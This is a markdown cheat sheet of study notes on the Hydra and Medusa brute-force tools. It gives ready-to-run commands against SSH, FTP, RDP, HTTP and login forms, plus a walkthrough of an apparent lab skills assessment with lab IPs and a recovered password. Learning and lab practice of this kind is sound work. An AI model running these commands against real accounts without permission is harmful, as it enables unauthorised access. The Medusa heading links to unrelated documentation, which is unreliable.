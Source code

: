 # Hydra
- Crafting the correct params string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. 

- Can brute force FTP, SSH, HTTP, SMTP, POP3, IMAP, MYSQL, MSSQL, VNC, RDP:
- HTTP: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- Single SSH: `hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.52.228 -s 56874 ssh -I`
- Multiple SSH servers: `hydra -l root -p toor -M targets.txt ssh`
- FTP on non-standard port: `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- Web Login Form: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
- RDP Brute-forcing: `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

```
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- Look at the HTML of the login form for details


- The `POST` method indicates that data is being sent to the server to create or update a resource.
- `/login` is the URL endpoint handling the login request.
- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.
- The request body contains the username and password, encoded as key-value pairs.
- Hydra's `http-post-form` service is specifically designed to target login forms: `hydra [options] target http-post-form "path:params:condition_string"`
- You can specify what success or failure is:
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"`

- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string. These can have static values or dynamic placeholders if their values change with each request.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

- The form submits data to the root path (`/`).
  - The username field is named `username`.
  - The password field is named `password`.
 
Therefore, the `params` string would be:
- `/:username=^USER^&password=^PASS^:F=Invalid credentials`
  - `"/"`: The path where the form is submitted.
  -  `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
  -  `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.
 
Resulting in - `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`

Hydra Workflow - (Login Brute forcing Skills Assessment)
- Brute force http: `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 83.136.255.230 -s 55891 http-get` (Finds username + password, use in the browser prompt to see webpage which reveals SSH username)
- Brute force ssh: `hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.52.228 -s 56874 ssh -I` (Finds username + password for SSH connection)
- Login with ssh: `ssh satwossh@94.237.52.228 -p 56874`
- Enumerate localhost: `nmap localhost`
- User anarchy `Thomas Smith` name: `./username-anarchy Thomas Smith > TM.txt`
- Brute force ftp: `hydra -L username-anarchy/TM.txt -P passwords.txt -s 21 -V localhost ftp` (Finds username + password for Thomas)
- Login with ftp: `ftp 'ftp://thomas:chocolate!@localhost:21'` or `ftp ftp://thomas:chocolate!@localhost:21` or `ftp localhost` or any kind of abbreviation the server accepts - will need to try a few. Even `ftp <IP>` should sometimes prompt a login.
- `ls -la` to see all files.
- `get flag.txt` to put file in SSH shell
- exitexitexit cat flag.txt

# [Medusa]([url](https://docs.medusajs.com/learn/fundamentals/modules))
- `man medusa`
- Modules (-M) are case sensitive, both the flag (M) and the modules you call. `HTTP` will fail but `http` wont etc.
- Whether the flag is capitlized or not will mean different things

- `medusa [target_options] [credential_options] -M module [module_options]`
- Useful for FTP, HTTP, IMAP, MYSQL, POP3, RDP, SSHV2, SUBVERSION(SVN), TELNET, VNX, Web Form.
- SSH Server: `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh`
- Multiple HTTP Auth: `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET `
- test for empty or default passwords (where user = password: `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

- Reminder SSH Login: `ssh sshuser@<IP> -p PORT`

- Find SSH access --> run `nmap localhost` --> run new medusa command on FTP port found: `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5` --> Found ftpuser password then run `ftp <IP>` --> enter user --> enter password -->> find file --> `get filename1` --> now in SSH shell

- Make a custom wordlist with `Username Anarchy`
  - `/username-anarchy Jane Smith > jane_smith_usernames.txt`
  - txt file created will have a bunch of username variations based off `Jane Smith`
 
- Make custom password lists with `CUPP`:
  - CUPP will take your inputs and create a comprehensive list of potential passwords
  - OSINT will be a goldmine of information for CUPP
  - Spawn CUPP with `cupp -i` and follow the prompts
 
Basic http: `medusa -h 83.136.252.13 -n 38252 -U top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -M http`

| Option | Description | Example |
|--------|-------------|---------|
| `-h HOST` | Target host (IP or hostname) | `medusa -h 192.168.1.100 ...` |
| `-H FILE` | File containing target hosts | `medusa -H hosts.txt ...` |
| `-u USER` | Username to test | `medusa -u admin ...` |
| `-U FILE` | File containing usernames | `medusa -U users.txt ...` |
| `-p PASS` | Password to test | `medusa -p password123 ...` |
| `-P FILE` | File containing passwords | `medusa -P passwords.txt ...` |
| `-C FILE` | File containing username:password combinations | `medusa -C combos.txt ...` |
| `-O FILE` | Write found logins to file | `medusa -O found_logins.txt ...` |
| `-t THREADS` | Number of threads (default: 8) | `medusa -t 16 ...` |
| `-T SECONDS` | Total timeout in seconds | `medusa -T 300 ...` |
| `-f` | Stop after first successful login per host | `medusa -f ...` |
| `-F` | Stop after first successful login (global) | `medusa -F ...` |
| `-v` | Verbose mode | `medusa -v ...` |
| `-d` | Display list of available modules | `medusa -d` |
| `-n PORT` | Use non-default port | `medusa -n 2222 ...` |
| `-s` | Enable SSL | `medusa -s ...` |
| `-m` | Module-specific parameters | `medusa -m DIR:/admin ...` |


